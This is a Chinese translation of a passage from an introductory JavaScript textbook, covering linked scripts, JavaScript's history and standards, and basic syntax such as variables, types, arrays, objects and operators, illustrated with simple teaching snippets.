当然，许多旧版浏览器，即使是 4.x 代的，也无法识别许多 HTML 元素（如段落）的事件处理器。然而，大多数浏览器应该能够理解页面加载和卸载、链接点击、表单填写以及鼠标移动等事件。每个浏览器支持事件的程度以及事件的处理方式差异很大，但核心事件在现代浏览器中得到了广泛支持。本书中的许多示例将探讨事件的处理方式，关于浏览器事件处理差异的深入讨论请参阅第 11 章。

##### 链接脚本

在 HTML 文档中包含脚本的一个非常重要的方式是利用 **<script>** 标签的 **src** 属性进行链接。这里的例子展示了如何将前述示例中的函数放入一个链接的 JavaScript 文件中。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>Event Trigger Example using Linked Script</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript" src="danger.js"></script>
</head>
<body>
<div align="center">
<form action="#" method="get">
<input type="button" value="Don't push me!" onclick="alertTest();" />
</form>
</div>
</body>
</html>
```

请注意，**src** 属性的值被设置为 "danger.js"。这个值是外部脚本的 URL 路径。在本例中，它与当前目录相同，但同样也可以是一个绝对 URL，例如 http://www.javascriptref.com/scripts/danger.js。无论文件位于何处，它所包含的仅仅是 JavaScript 代码——没有 HTML 或其他 Web 技术。因此在本例中，文件 danger.js 可以包含以下脚本：

```javascript
function alertTest()
{
alert("Danger! Danger!");
}
```

外部脚本文件的好处在于它们将页面的逻辑、结构和表现分离开来。使用外部脚本，可以方便地在网站的多个页面中引用该脚本。这使得代码维护更加容易，因为你只需在一个地方（外部脚本文件）更新多个页面共有的代码，而不需要在每个页面上都进行更新。此外，浏览器可以缓存外部脚本，因此使用它们可以有效地加速网站访问，避免重复下载相同的脚本。

> **提示** *考虑将网站中使用的所有脚本放在一个公共的脚本目录中，类似于图片存储在 images 目录中的方式。这将确保适当的缓存，使脚本与内容分离，并为网站建立一个常用代码库。*

尽管使用外部脚本有很多好处，但由于一些潜在的缺点，它们往往没有被使用。一个不太常见的原因是并非所有支持 JavaScript 的浏览器都支持链接脚本。幸运的是，这个问题主要与非常古老的浏览器有关，特别是 Netscape 2 和某些 Internet Explorer 3 版本。这些浏览器现在已经极为罕见，所以除非你极度关注向后兼容性，否则这算不上什么大问题。

外部脚本的主要挑战与浏览器加载有关。如果外部脚本中包含某些稍后引用的函数，特别是那些由用户活动调用的函数，程序员必须小心不要允许它们在下载完成之前被调用，否则可能会显示错误对话框。也就是说，浏览器何时加载外部链接的脚本并不确定。通常，它们加载得非常快，足以让页面中的任何 JavaScript 正确引用它们。但如果用户通过非常慢的网络连接，或者立即执行调用外部脚本中定义的函数的脚本，这些函数可能尚未加载完毕。

幸运的是，外部脚本的大多数问题都可以通过良好的防御性编程风格来缓解，本书中将展示这方面的示例。第 23 章将详细介绍具体的技术。然而，如果顽固的错误似乎无法消除，并且正在使用外部脚本，一个好的建议是将代码直接移动到 HTML 文件中。

> **提示** *当使用外部 .js 文件时，请确保你的 Web 服务器已将文件扩展名 .js 映射到 MIME 类型 text/javascript。大多数 Web 服务器默认已设置此 MIME 类型，但如果你遇到链接脚本的问题，这可能是原因。*

##### JavaScript 伪 URL

在大多数支持 JavaScript 的浏览器中，可以使用 JavaScript 伪 URL 来调用脚本。当直接在浏览器地址栏中输入时，像 **javascript: alert('hello')** 这样的伪 URL 会调用一个简单的 alert 显示 "hello"，如下所示：



> **注意** *在某些浏览器中，特别是 Netscape 4 及以上版本，单独输入 **javascript:** 这个 URL 时可以访问 JavaScript 控制台。其他浏览器也有可以访问的控制台来查看错误和测试代码。然而，Internet Explorer 不提供这种直接访问控制台的方式，该控制台可用于调试和测试脚本的值。JavaScript 控制台的示例如图 1-6 所示。*


##### JavaScript 的历史与应用

了解 JavaScript 的历史，实际上能帮助我们深入理解它的特性、挑战，甚至它作为 Web 核心技术的潜力。例如，单是 JavaScript 这个名字就可能令人困惑，除非你了解其历史背景——因为尽管名字相似，但 JavaScript 与 Java 毫无关系。Netscape 在 1995 年 Navigator 2.0 的早期测试版中首次引入了该语言，当时名为 LiveScript，其初衷是用于表单验证。很可能后来该语言被重命名为 JavaScript，是因为当时业界对 Java 相关技术的狂热，以及这两种语言有潜力结合用于构建 Web 应用程序。不幸的是，由于名称中包含了 "Java" 一词，JavaScript 常被误认为是某种简化的 Java 脚本形式。实际上，如今的 JavaScript 与 Java 仅有些许相似，在语法上通常与 C、Perl 和 Python 等语言有更多的共同点。

尽管该语言的名称导致部分用户产生误解，但它已被浏览器厂商广泛采用。在 Netscape 在其浏览器 2.0 版本中引入 JavaScript 之后，微软在 Internet Explorer 3.0 中推出了一个名为 JScript 的 JavaScript 克隆版。Opera 也在其浏览器的 3.x 版本中引入了 JavaScript 支持。许多其他浏览器也支持各种变体的 JavaScript。随着时间的推移，各大浏览器厂商都对该语言进行了自己的扩展，浏览器也各自支持不同版本的 JavaScript 或 JScript。表 1-1 详细列出了支持 JavaScript 语言的常见浏览器。本书将讨论 JavaScript 各版本的各种特性，附录 B 则提供了各版本对各种特性的支持信息。

| 浏览器版本 | JavaScript 支持情况 |
| --- | --- |
| Netscape 2.x | 1.0 |
| Netscape 3.x | 1.1 |
| Netscape 4.0–4.05 | 1.2 |
| Netscape 4.06–4.08, 4.5x, 4.6x, 4.7x | 1.3 |
| Netscape 6.x,7.x | 1.5 |
| Mozilla 衍生版 | 1.5 |
| Internet Explorer 3.0 | Jscript 1.0 |
| Internet Explorer 4.0 | Jscript 3.0 |
| Internet Explorer 5.0 | Jscript 5.0 |
| Internet Explorer 5.5 | Jscript 5.5 |
| Internet Explorer 6 | Jscript 5.6 |

由于 JavaScript 规范变化迅速且跨平台支持不一致，你在浏览器中使用 JavaScript 时应格外谨慎。由于不同级别的 JavaScript 支持不同的语法结构，程序员应注意创建条件代码以处理浏览器和语言的差异。本书的大部分内容将讨论此类问题，但集中的讨论可在第 23 章找到。

由于 JavaScript 给程序员带来了跨浏览器的噩梦，最终一种标准形式的 JavaScript 被规范出来，称为 ECMAScript（发音为 eck-ma-script）。第 3 版是 ECMAScript 的最新版本。虽然大多数最新的浏览器已完全或接近完全支持 ECMAScript，但该名称本身尚未在公众中普及，大多数程序员倾向于将该语言，无论其变体如何，简单地称为 JavaScript。

> 注意：JavaScript 2.0 和 ECMAScript 第 4 版都在缓慢地推进标准化进程。鉴于 Netscape 的衰落，尚不清楚这些版本语言将会如何发展，目前浏览器厂商距离实现该语言还很遥远。然而，本书将在适当地方简要提及重要的差异。

即使有了 ECMAScript，JavaScript 的使用仍然可能充满挑战。ECMAScript 主要关注定义核心语言特性，例如流程控制语句（例如，if、for、while 等）和数据类型。但 JavaScript 通常也能访问一组与其执行环境（最常见的是浏览器）相关的公共对象——这些对象，如 window、navigator、history 和 screen，并非 ECMAScript 规范的一部分，它们统称为传统的*浏览器对象模型*，或简称 BOM。所有浏览器版本都倾向于拥有相似但略有不同的 BOM 对象集，这一事实导致了巨大的混乱和网页中广泛的浏览器不兼容性。BOM 在 4.x 版浏览器引入动态 HTML（DHTML）概念时，其不兼容性达到了最严重的程度。实际上，从技术角度讲，并不存在 DHTML 这样一种东西。这个概念源自 4.x 版浏览器的营销术语，用来描述在页面中结合使用 HTML、CSS 和 JavaScript 所产生的动态效果。如果你在谈论 DHTML，你实际上是在谈论这些技术的交集，而非某种与 JavaScript 分离的全新技术。

幸运的是，W3C 已定义了标准对象，用于访问网页组件，如 HTML 元素及其包含的文本片段、CSS 属性，甚至是 XML 元素。他们这样做，是试图终结 DHTML 不兼容性的噩梦。他们的规范被称为*文档对象模型*，简称 DOM。它定义了一种在标记语言和样式表中操作页面元素的标准方式，提供了 DHTML 所能达到的所有效果，同时避免了主要的不兼容性问题。然而，传统对象模型与 DOM 之间存在一些交叉，DOM 实现的差异也比比皆是。幸运的是，较新的浏览器已经开始消除许多不兼容性，JavaScript 与页面对象之间的交互最终开始变得定义清晰。更多关于 DOM 的信息可以在 [www.w3.org/DOM](http://www.w3.org/DOM) 以及第 10 章中找到。

综合来看，由 ECMAScript 规范的核心 JavaScript、浏览器对象以及文档对象，将共同为 JavaScript 程序员提供通常所需的全部功能。不幸的是，除了核心语言外，所有可用的不同对象似乎都因浏览器和版本而异，使得正确的跨浏览器编码成为一个真正的挑战！本书将花费大量篇幅来尝试解决这些困难。

正如我们所见，研究 JavaScript 的演变对于掌握其使用至关重要，因为它解释了其背后的一些设计动机。虽然 JavaScript 作为一种客户端技术功能强大，但和所有语言一样，它在某些类型的应用中比其他应用更擅长。JavaScript 的一些常见用途包括：

- 表单验证
- 页面装饰与特效
- 导航系统
- 基本数学计算
- 动态文档生成
- 操控结构化文档

JavaScript 确实有其局限性。它不支持健壮的错误处理功能、强类型，或对构建大规模应用有用的设施。然而，尽管存在缺陷和围绕该语言的许多误解，它还是取得了巨大的成功。或许可以说，如果你考虑所有曾经接触过该语言的 Web 开发人员，它是地球上最流行、使用最广泛——尽管常被误解——的语言之一。JavaScript 的流行度甚至已超越了 Web 领域，我们看到其核心以 ECMAScript 的形式被用于嵌入式系统以及 Dreamweaver 等应用程序中，作为内部自动化和脚本语言。ECMAScript 还催生了众多相关语言，最著名的是 Flash 中的 ActionScript。Mozilla 和现代 Netscape Web 浏览器的大部分用户界面都是用 JavaScript 实现的。JavaScript 不再局限于微不足道的简单悬停效果和表单检查；它是一种功能强大且广泛使用的语言。因此，JavaScript 应当像任何编程语言一样被严谨地学习，这正是我们从下一章开始将要做的事情。


### 总结

JavaScript 已迅速成为网页中使用的首要客户端脚本语言。该语言的成功很大程度上在于开发者可以轻松上手。`<script>` 元素使得在 HTML 文档中直接嵌入 JavaScript 代码片段变得简单；然而，某些浏览器可能需要使用注释和 `<noscript>` 元素来避免错误。链接脚本可以进一步用于将页面的标记与可能操作它的脚本分离。尽管包含脚本可能很简单，但 JavaScript 的挑战却有很多。该语言在浏览器中的支持不一致，其动荡的历史导致了众多不兼容问题。然而，希望就在眼前。随着 ECMAScript 和 W3C 指定的文档对象模型的兴起，许多为使 JavaScript 代码在不同浏览器中工作所需的各种编码技巧可能不再必要。

## 第 2 章：JavaScript 核心特性——概述

### 概述

*脚本语言* 是一种用于操作、自定义或自动化现有系统功能的语言。对于 JavaScript 而言，这个系统通常是 Web 浏览器及其相关的 HTML、CSS 和 XML 技术。JavaScript 本身是一种相对简单的语言，其大部分功能来源于浏览器提供的内置对象和文档对象。

本章介绍的 JavaScript 核心特性包括脚本必须遵循的语法规则，以及用于存储数据和控制流程的基本构造。一旦理解了语言的基本机制，就可以相对独立地处理更高级的特性，而不会陷入无数细节中。C/C++ 和 Java 程序员会发现 JavaScript 的语法很熟悉，并且应该能够快速掌握其更高级的特性。

本章是入门性的，旨在快速概述 JavaScript 的所有核心特性。大多数主题将在后续章节中更深入地探讨。由于这些材料对于经验丰富的程序员来说可能很熟悉，因此有经验的人可能只需要浏览本章。

### 基本定义

拥有共同兴趣或目标的大群人至少会完成一件事：他们发展了术语。在花任何显著的时间与计算机打交道后，人们不禁会注意到软件工程师特别喜欢他们用来交流编程思想的语言。用于讨论编程语言的术语提供了一种技术词汇，通过它可以清晰简洁地传达特定的思想。

这里我们介绍一些将在本书中使用的编程语言术语。表 2-1 提供了通常只有模糊理解的概念的精确定义。这些术语将在以下章节中使用。

#### 表 2-1：编程语言基本术语

| 名称 | 定义 | 示例 |
|---|---|---|
| 词法单元 | 语言中最小的不可分割的词法单元。一个连续的字符序列，如果被空格分隔，其意义将改变。 | 所有标识符和关键字都是词法单元，字面量如 3.14 和 "This is a string" 也是。 |
| 字面量 | 直接在脚本中找到的值。 | 3.14<br>"This is a string"<br>[2, 4, 6] |
| 标识符 | 变量、对象、函数或标签的名称。 | X<br>myValue<br>username |
| 运算符 | 执行内置语言操作（如赋值、加法和减法）的词法单元。 | =<br>+<br>-<br>* |
| 表达式 | 一组词法单元，通常是字面量或标识符，与运算符组合，可以计算为一个特定的值。 | 2.0<br>"This is a string"<br>(x + 2) * 4 |
| 语句 | 一个命令式指令。语句通常会导致执行环境的状态（变量、定义或执行流程）发生变化。程序只是一个语句列表。 | x = x + 2;<br>return(true);<br>if (x) { alert("It's x");}<br>function myFunc()<br>{<br>alert("Hello there");<br>} |
| 关键字 | 语言本身的一部分词汇。关键字不能用作标识符。 | while<br>do<br>function<br>var |
| 保留字 | 可能成为语言本身一部分的词汇。保留字不能用作标识符，尽管此限制有时并不严格强制执行。 | class<br>public |

### 语言特性

在学习新的编程语言时，详细说明其主要特性很重要，例如代码如何执行、空白如何解释、语句如何指示等等。本节涵盖这些基本问题，在讨论 JavaScript 提供的各种数据类型、运算符和语句之前，应该先理解这些。

#### 脚本执行顺序

(X)HTML 文档中的 JavaScript 代码在页面中找到时会被逐行解释。这意味着，如果函数定义和变量声明将在整个页面中使用，最好将它们放在文档头部，包含在 `<head>` ... `</head>` 标签内。某些代码——例如函数体和与事件处理程序关联的操作——不会立即执行。

#### 大小写敏感性

JavaScript 是区分大小写的。这意味着大写字母与其对应的小写字母是不同的。例如，如果你在脚本中使用标识符 **result**、**Result** 和 **RESULT**，每个标识符都指代一个单独的、不同的变量。大小写敏感性适用于语言的所有方面：关键字、运算符、变量名、事件处理程序、对象属性等。所有 JavaScript 关键字都是小写的，因此在使用诸如 **if** 语句等功能时，你需要确保输入的是 **if** 而不是 **If** 或 **IF**。由于 JavaScript 使用“驼峰式”命名约定，许多方法和属性使用混合大小写。例如，**Document** 对象的 **lastModified** 属性名称中的 *M* 必须是大写；使用小写 *m* 将检索到一个 *undefined* 值。

大小写敏感性的主要含义是，在定义和访问变量、使用 **if** 和 **while** 等语言构造以及访问对象属性时，你应密切注意大写字母。一个拼写错误就可能改变整个脚本的含义，并需要大量的调试工作。

> **注意** *JavaScript 大小写敏感性的一个例外是 Internet Explorer 3。在这个特定的浏览器中，客户端对象和属性不区分大小写。这个例外不会对你今天可能编写的脚本造成问题。它仅仅意味着一些依赖于 Internet Explorer 不区分大小写特性的旧脚本可能在现代浏览器中无法工作。*

##### HTML 与大小写敏感性

在 HTML 4 及更早版本中，元素和属性名称不区分大小写。例如，以下两个标签是等价的：

```


```

这本身不是问题。问题出现在新手程序员看到 HTML 事件处理程序以两种不同方式引用（如上例中的 **ONCLICK** 和 **onClick**），并假设事件处理程序在 JavaScript 中也可以类似地访问时。事实并非如此。JavaScript 中相应的事件处理程序是 **onclick**，它必须*始终*以此方式引用。**ONCLICK** 和 **onClick** 在 HTML 中起作用的原因是浏览器自动将它们绑定到 JavaScript 中正确的 **onclick** 事件处理程序。

还要考虑以下两个标签，它们*不*等价：

```


```

它们不等价的原因是第一个修改变量 *x*，而第二个修改 *X*。由于 JavaScript 区分大小写，它们是两个不同的变量。这说明了 HTML 属性的一个重要方面：虽然属性名称不区分大小写，但其*值*可能区分大小写。**onclick** HTML 属性不区分大小写，因此可以写成 **onClick**、**ONCLICK** 甚至 **oNcLiCk**。然而，由于它设置的值包含 JavaScript，其*值*是区分大小写的。

幸运的是，随着 XHTML 的兴起，它要求元素和属性名使用小写，这两种技术交汇处的区分大小写问题就不那么模糊了。开发者应始终假设区分大小写，并且在标记方面，应始终优先使用小写。

#### 空白字符

*空白字符*是指在屏幕上占据空间但没有任何可见表示的字符。例子包括普通空格、制表符和换行符。任何过多的空白字符序列都会被 JavaScript 忽略。例如

```
x                               =       x       +           1;
```

等同于

```
x = x + 1;
```

这表明空白字符的使用更多是为了程序员而非解释器的利益。实际上，深思熟虑地使用空白字符来分隔注释、循环内容和声明，会产生更易读和更易理解的代码。

> **注意** *由于 JavaScript 对空白字符的漠不不关心，以及大多数 Web 用户对缓慢下载时间的沮丧，一些 JavaScript 程序员选择通过手动或使用工具删除多余的空白字符来"压缩"他们的脚本。*

如果含义明确，标记之间的间距可以省略。例如，

```
x=x+1;
```

不包含空格，但它是可以接受的，因为其含义清楚。然而，大多数除简单算术函数以外的操作将需要空格来指示期望的含义。考虑以下示例：

```
s = typeof x;
```

```
s = typeofx;
```

第一条语句对变量 *x* 调用 **typeof** 运算符，并将结果放入 *s* 中。第二条将名为 *typeofx* 的变量的值复制到 *s* 中。一个空格改变了整个语句的含义。

JavaScript 忽略过多空白字符的规则有两个例外。第一个是在字符串中。用单引号或双引号括起来的任何字符串中，空白字符都会被保留：

```
var s = "This       spacing     is                   p r e s e r v e d.";
```

有经验的程序员可能会想知道，如果在字符串中直接包含换行符会发生什么。答案涉及空白字符与 JavaScript 的另一个微妙之处：*隐式分号*及其与语句的关系。

#### 语句

语句是像 JavaScript 这类语言的本质。它们是指示解释器执行特定动作的指令。例如，最常见的语句之一是*赋值*。赋值使用 **=** 运算符，将右侧的值放入左侧的变量中。例如，

```
x = y + 10;
```

将 **10** 加到 *y* 上，并将值放入 *x* 中。赋值运算符不应与"等于"比较运算符 **==** 混淆，后者用于条件表达式（本章后面讨论）。与编程语言中的语句相关的一个关键问题是，如何指示它们的终止和分组。

#### 语句定界符：分号和换行

分号表示 JavaScript 语句的结束。例如，您可以通过用分号分隔，将多个语句放在一行：

```
x = x + 1;  y = y + 1;  z = 0;
```

您还可以在一行中包含更复杂甚至空的语句：

```
x = x + 1; ;; if (x > 10) { x = 0; }; y = y - 1;
```

这个例子递增 *x*，跳过两个空语句，如果 *x* 大于 **10** 则将 *x* 设置为零，最后递减 *y*。如您所见，在一行中包含多个语句相当笨拙，应避免。

虽然语句通常后跟分号，但如果语句之间用换行分隔，则可以省略分号。例如，

```
x = x + 1
```

```
y = y - 1
```

被处理为

```
x = x + 1;
```

```
y = y - 1;
```

当然，如果您想在一行中包含两个语句，则必须包含分号来分隔它们：

```
x = x + 1; y = y - 1
```

隐式分号插入的正式规则比前面的描述要复杂一些。理论上，单个语句的标记可以用换行分隔而不会导致错误。然而，如果一行上没有分号的标记构成了完整的 JavaScript 语句，即使下一行可以被合理地视为第一行的扩展，也会插入分号。经典的例子是 **return** 语句。由于 **return** 的参数是可选的，将 **return** 及其参数放在不同的行上会导致 **return** 执行时没有参数。例如，

```
return
```

```
x
```

被处理为

```
return;
```

```
x;
```

而不是预期的：

```
return x;
```

因此，依赖隐式分号插入是一个坏主意，而且是不良的编程风格。除非您确信自己了解 JavaScript 分号插入规则的所有细微之处，否则应避免这种做法。

#### 块

花括号（{ }）用于将一系列语句组合在一起。从某种意义来说，您可以将花括号视为创建一个大的语句（或代码块）。例如，构成函数体的语句用花括号括起来：

```
function add(x, y)
{
    var result = x + y;
    return result;
}
```

如果要执行多个语句作为条件的结果或在循环中，语句同样被分组：

```
if (x > 10)
{

    x = 0;

    y = 10;

}
```

无论它们如何分组，语句通常需要修改数据，这些数据通常以变量的形式存在。

---

### 变量

变量存储数据。每个变量都有一个名称，称为其*标识符*。在 JavaScript 中，变量使用 **var** 声明，这是一个关键字，用于为新数据分配存储空间，并向解释器指示正在使用新的标识符。声明变量很简单：

```
var x;
```

这条语句告诉解释器，即将使用新变量 *x*。变量在声明时可以赋初始值：

```
var x = 2;
```

此外，如果变量之间用逗号分隔，可以用一条 **var** 语句声明多个变量：

```
var x, y = 2, z;
```

您不应在不先声明的情况下使用变量，尽管在某些情况下这样做是可能的。在未先声明的情况下，在赋值右侧使用变量将导致错误。

有经验的程序员会注意到，与 C、C++ 和 Java 不同，JavaScript 中只有一种声明变量的方式。这突出了 JavaScript 对变量数据类型的处理与许多语言（包括 C、C++ 和 Java）根本不同的事实。

#### 基本数据类型

每个变量都有一个*数据类型*，指示变量持有何种数据。JavaScript 的基本数据类型是字符串、数字和布尔值。字符串是字符列表，字符串字面量通过用单引号或双引号将字符括起来表示。字符串可以包含单个字符或多个字符，包括空白字符和特殊字符，如 \n（换行符）。数字是整数或浮点数值，数字字面量以自然方式指定。布尔值取两个值之一：**true** 或 **false**。布尔字面量通过在源代码中直接使用 **true** 或 **false** 来指示。以下是这三种数据类型的示例。

```
var stringData = "JavaScript has strings\n It sure does";

var numericData = 3.14;

var booleanData = true;
```

JavaScript 还支持另外两种基本类型：**undefined** 和 null。所有这些数据类型以及特殊字符的详细信息在第 3 章讨论。然而，JavaScript 数据类型的一个方面值得在此概述中特别提及——弱类型。

#### 动态类型

JavaScript 与许多读者可能熟悉的其他语言之间的一个主要区别是，JavaScript 是*动态类型*的（或者，按某些定义，*弱类型*）。每个 JavaScript 变量都有一个数据类型，但类型是从变量的内容推断出来的。例如，被赋值为字符串值的变量假定字符串数据类型。JavaScript 自动类型推断的一个结果是，变量的类型可以在脚本执行期间更改。例如，变量在某一点可以持有字符串，然后后来被赋值为布尔值。它的类型根据持有的数据而改变。这解释了为什么 JavaScript 中只有一种声明变量的方式：没有必要在变量声明中指示类型。

弱类型对 JavaScript 来说既是福也是祸。虽然弱类型似乎使程序员不必提前声明类型，但它是以引入微妙的类型错误为代价的。例如，给定以下操作各种字符串和数值的脚本，我们将看到类型转换导致潜在的歧义：

```
document.write(4*3);

document.write("<br />");

document.write("5" + 5);

document.write("<br />");

document.write("5" - 3);

document.write("<br />");

document.write(5 * "5");
```

当此示例包含在 HTML 文档中时，其输出如下所示：


 在大多数示例中，字符串在计算前被转换为数字，并得出了正确的结果。当然，如果我们尝试像 "cat" – 3 这样的操作，我们会看到结果为 **NaN**，因为字符串 "cat" 会转换为 **NaN**，然后减法运算也会产生 **NaN**。然而，在 "5" + 5 的加法运算中，答案实际上是字符串 "55" 而不是数字 10。加法不起作用的原因是加号具有双重含义，既表示加法，也表示字符串拼接。

类型转换，加上像 + 这样重载的运算符，会给初学者和高级程序员带来各种困惑，所以我们在第3章花费了大量篇幅讨论这个话题。幸运的是，那里介绍的规则相对合乎逻辑，而且 JavaScript 中有许多方法可以可预测地转换数据，比如使用 **parseFloat()** 方法，甚至可以使用 **typeof** 运算符来检查变量的值。例如，

```
var x = "5";
```

```
alert (typeof x);
```

正确地识别出 x 后面的文本是字符串值，如下所示：

### 复合类型

与数字和字符串等原始类型相反，*复合类型* 是由异构数据组成的一个单元。复合类型不仅可以包含字符串、数字、布尔值、未定义值和空值，甚至可以包含其他复合类型。JavaScript 支持三种复合类型：对象、数组和函数。在第6章和第7章中，你会发现数组和函数实际上只是对象的特殊类型，但我们暂时忽略 JavaScript 面向对象方面的微妙之处，只介绍基础知识。

### 数组

*数组* 是在单个标识符下分组在一起的有序值集合。创建数组有多种方法，但最简单的是像标准标识符一样定义它，然后将值放在方括号内。以下语句定义了一个名为 *myArray* 的数组，包含四个数值：

```
var myArray = [1,5,68,3];
```

数组可以包含任意数据项，因此像下面这样的定义

```
var myArray = ["Thomas", true, 3, -47.6, "x"];
```

也是有效的。

另一种在语法上定义数组的方式是承认其作为对象的血统，即使用关键字 **new** 调用 **Array** 对象的构造函数，如下所示：

```
var myArray = new Array();
```

这将 *myArray* 定义为一个没有特定长度的数组。

我们可以很容易地通过传递一个数值来预先确定数组的长度。例如，

```
var myArray = new Array(4);
```

定义了一个长度为 4 的数组。

我们甚至可以使用显式构造函数风格语法来填充数组，如下所示：

```
var myArray = new Array(1,5,"Thomas", true);
```

无论它们是如何定义的，数组元素的访问方式都是相同的。要引用数组的某个特定部分，我们必须在方括号内提供一个索引值，因此给定

```
var myArray = new Array(1,5,"Thomas", true);
```

```
var x = myArray[2];
```

```
var y = myArray[0];
```

*x* 的值将是字符串 "Thomas"，而 *y* 将被设置为数字 1。原因是 JavaScript 中的数组是从 0 开始索引的。以下脚本展示了数组的定义和使用索引值的赋值操作。

```
var myArray = new Array(4);
```

```
myArray[0] = 1;
```

```
myArray[1] = 5;
```

```
myArray[2] = "Thomas";

```

```
myArray[3] = true;
```

如前所述，数组实际上是对象，具有多种可以用来操作它们属性和方法。这些特性将在 [第7章](#) 中详细讨论。不过，让我们先简要了解一下 JavaScript 中的对象。

###### 对象

对象可以保存任何类型的数据，是执行有用任务的主要机制。浏览器提供了大量可供使用的对象。例如，你可以通过 **Window** 对象与用户交互，或者使用 **Document** 对象修改网页内容。

对象中包含的数据被称为该对象的 *properties*（属性）。属性使用 "点" 运算符访问，即一个句点后跟属性名称。语法是

```
objectname.propertyname
```

例如，你可以像这样访问 **Document** 对象的 **lastModified** 属性：**document.lastModified**。

对象中包含的函数被称为该对象的 *methods*（方法）。方法也使用点运算符访问：

```
objectname.methodname()
```

事实上，我们在前面的示例中已经使用过方法。**Document** 对象的 **write()** 方法用于将文本输出到屏幕：

```
document.write("Hello JavaScript world!");
```

你会注意到，在使用对象时，访问特定属性所需的标识符长度可能会相当长。例如，编写 **document.write** 可能会变得繁琐，访问更深层次的嵌套子对象也是如此。通过使用关键字 **with**，我们可以避免引用对象属性或方法的完整路径：

```
with (document)
{
    write("this is easier ");
    write("than writing out ");
    write("the whole path");
}
```

除了使用 **Document** 或 **Window** 等内置对象外，你还可以使用关键字 **new** 创建自己的对象。**new** 的使用在 [上一节](#) 的数组示例中已简要演示。你还可以使用关键字 **delete** 删除数组中的属性或元素。例如，这里我们定义了一个数组元素，然后迅速将其销毁。

```
var myArray = new Array(4);

myArray[0]="Thomas";

delete myArray[0];
```

从根本上说，JavaScript 是一种基于对象的语言，一切都是由语言或浏览器提供的各种对象派生而来的。例如，JavaScript 提供了与原始数据类型对应的对象，如 **String**、**Number** 和 **Boolean**，它们具有操作相应类型数据的方法。还提供了更复杂的数据相关对象，如 **Array**、**Math** 和 **Date**，以及面向浏览器的对象，如 **Navigator**、**History** 和强大的 **Document** 对象。甚至有一个通用的 **Object** 可以用来构建我们自己的对象。关于创建和使用对象的过程的详细信息需要大量解释，可以在 [第6章](#) 中找到。

> **注意** 对象的实例通常全部小写，而相应的对象类型则以首字母大写形式书写。目前不用担心这种区别——它将在 [第6章和第7章](#) 中深入讨论。

#### 表达式

表达式是 JavaScript 的重要组成部分，是许多 JavaScript 语句的构建块。表达式是可以被求值的标记组；例如，

```
var x = 3 + 3;
```

是一个赋值语句，它将表达式 3 + 3 的值放入变量 x 中。字面量和变量是最简单的表达式类型，可以与运算符一起使用来创建更复杂的表达式。

### 运算符

基本运算符包括熟悉的算术符号：=（赋值）、+（加法）、−（减法或一元取反）、*（乘法）、/（除法）和 %（取模）；此处都用到了。

```
var x=3, y=6;

x = -x;

x = y + 2;

x = y - 1;

x = y * y;

x = y / x;

x = y % 4;
```

在这个例子中，x 首先被赋值为 −3，然后是 8，然后是 5，然后是 36，然后是 2，最后再次是 2。最可能不熟悉的运算符是取模（%），它产生整数除法的余数。

JavaScript 还提供了位运算符，如 &（AND）、|（OR）、^（XOR）、~（NOT）、<<（左移）和 >>（右移）。虽然位运算符对一些 C 程序员来说会很熟悉，但考虑到 JavaScript 在网页环境中的高级特性，它们可能显得有些格格不入。

为了比较对象，JavaScript 提供了丰富的关系运算符集，包括 ==（等于）、!=（不等于）、<（小于）、>（大于）、<=（小于或等于）和 >=（大于或等于）。在表达式中使用关系运算符会使表达式在条件成立时求值为 **true**，否则为 **false**。所以，

```
5 < 10
```

会求值为 **true**，而

```
11 < 10
```

会求值为 **false**。

程序员应该非常小心 = 和 == 的含义。第一个是赋值运算符，而第二个是条件比较运算符。混淆两者是 JavaScript 程序中最常见的错误之一。例如，

```
x = 5;
```

给 x 赋值，而

```
x == 5;
```

将 x 的值与字面量 5 进行比较。当这些运算符在 **if** 语句中被误用时，就会出现令人沮丧的 bug。


一旦进行了比较，就可以使用逻辑运算符 && (与)、|| (或) 和 ! (非) 来创建更复杂的条件判断。例如，

```
if ((x >= 10) && (y < 3))
{
    z = z + 1;
}
```

当 *x* 大于或等于 10 且 *y* 小于 3 时，此代码会增加 *z* 的值。

鉴于递增和递减值的实用性，JavaScript 与其他语言一样，提供了简写表示法。运算符 ++ 为一个值加一，而 -- 则减一。因此，对于以下代码：

```
var x=4;
x++;
```

执行结束时，*x* 的值为 5。

> **注意** 将 ++ 或 -- 运算符放在值之前或之后，其效果存在细微差别，如第 4 章所述。

一个非常有用的运算符是字符串运算符 (+)，用于连接字符串。下面的脚本：

```
document.write("JavaScript is " + "great.");
```

输出连接后的字符串如下：



当运算符与变量以及 HTML 结合使用时，就可以创建更复杂的输出。

```
var myName="Thomas";
document.write("Hello <i>"+myName+" </i>");
```

#### 运算符优先级

使用运算符时，我们必须注意求值顺序。鉴于不同运算符可能具有比其他运算符更高的优先级，求值顺序可能并非如预期的那样。例如，考虑以下代码：

```
var x = 4 + 5 * 8;
```

*x* 的值是设为 72 还是 44？答案是 44，因为乘法运算符的优先级高于加法运算符。我们可以使用括号对表达式进行分组，并强制按特定方式执行。因此，要使示例中的 *x* 设为 72，我们应使用：

```
var x = (4+5) * 8;
```

虽然这个例子非常简单，但有时执行顺序不那么明确，所以当有疑问时，最好加上括号。所有形式运算符的细微差别将在 [第 4 章](https://example.com) 的第一部分讨论。

#### 流程控制语句

